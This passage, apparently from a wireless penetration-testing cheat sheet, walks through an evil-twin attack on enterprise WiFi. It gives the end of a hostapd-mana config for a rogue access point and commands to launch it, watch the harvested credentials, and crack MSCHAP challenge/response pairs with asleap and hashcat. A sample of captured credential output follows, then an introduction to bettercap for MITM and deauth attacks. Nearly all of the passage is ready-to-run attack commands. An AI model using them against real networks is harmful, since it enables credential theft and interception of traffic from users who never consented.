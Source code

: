 ```bash
wpa_pairwise=CCMP TKIP

# Mana settings
mana_wpe=1
mana_credout=/tmp/hostapd.credout
mana_eapsuccess=1
mana_eaptls=1
EOF

# Launch rogue enterprise AP
sudo hostapd-mana enterprise_rogue.conf
```

### Credential Harvesting and Cracking
```bash
# Monitor harvested credentials
tail -f /tmp/hostapd.credout

# Extract challenge/response for cracking
asleap -C challenge_hex -R response_hex -W /usr/share/wordlists/rockyou.txt

# Alternative with hashcat
echo "challenge:response" > mschap.hash
hashcat -m 5500 -a 0 mschap.hash /usr/share/wordlists/rockyou.txt
```

**Expected Output**: 
```
username:domain:challenge:response
john.doe:CORPORATE:1234567890abcdef:fedcba0987654321...
```

---

## bettercap Essentials {#bettercap-essentials}

### bettercap Overview
- **Purpose**: Network reconnaissance and attack framework  
- **Capabilities**: WiFi attacks, MITM, packet sniffing, deauth attacks
- **Advantages**: Modern interface, active development, comprehensive feature set

### Basic WiFi Operations

#### Starting bettercap
```bash
# Start bettercap with WiFi interface
sudo bettercap -iface wlan0mon

# Alternative: specify interface in session
sudo bettercap
> set wifi.interface wlan0mon
```
